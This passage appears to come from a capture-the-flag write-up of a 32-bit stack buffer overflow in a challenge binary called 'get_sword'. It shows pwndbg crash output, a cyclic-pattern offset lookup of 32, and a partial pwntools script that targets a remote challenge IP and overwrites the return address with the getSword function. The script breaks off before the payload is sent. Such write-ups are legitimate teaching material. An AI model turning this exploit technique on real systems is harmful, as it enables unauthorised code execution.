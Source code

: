 ```










──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffcd10 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
01:0004│     0xffffcd14 ◂— 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
02:0008│     0xffffcd18 ◂— 'laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
03:000c│     0xffffcd1c ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
04:0010│     0xffffcd20 ◂— 'naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
05:0014│     0xffffcd24 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
06:0018│     0xffffcd28 ◂— 'paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
07:001c│     0xffffcd2c ◂— 'qaaaraaasaaataaauaaavaaawaaaxaaayaaa'
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0 0x61616169
   1 0x6161616a
   2 0x6161616b
   3 0x6161616c
   4 0x6161616d
   5 0x6161616e
   6 0x6161616f
   7 0x61616170
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

The binary faults obviously and now we can get the offset. So now we can grab whatever was in our instruction pointer and get the offset. 

```
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

With that we can now craft our exploit.

```
from pwn import *

binary = context.binary = ELF("./get_sword", checksec=False)

p = remote("173.255.201.51", 31337)

buffer = b'A' * 32

win = binary.sym.getSword

ret = p32(0x0804900e)

payload = buffer
payload += p32(win)

```